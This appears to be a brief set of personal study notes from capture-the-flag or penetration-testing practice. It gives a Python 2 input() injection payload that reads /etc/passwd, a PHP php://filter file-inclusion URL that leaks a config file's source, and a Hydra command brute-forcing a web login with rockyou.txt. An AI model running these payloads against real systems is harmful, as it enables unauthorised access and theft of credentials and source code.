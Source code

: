 Learnings:
input() in python2 is not safe, equivalent to eval() 
exploiting input() command: 

__import__("os").system('cat /etc/passwd')


PHP:
fetching source files : 
index.php?file=php://filter/convert.base64-encode/resource=config 

Hydra:
hydra -s 45885 -l admin www.bruteforce.me -P rockyou.txt http-form-post "/:password=^PASS^:F=Invalid"

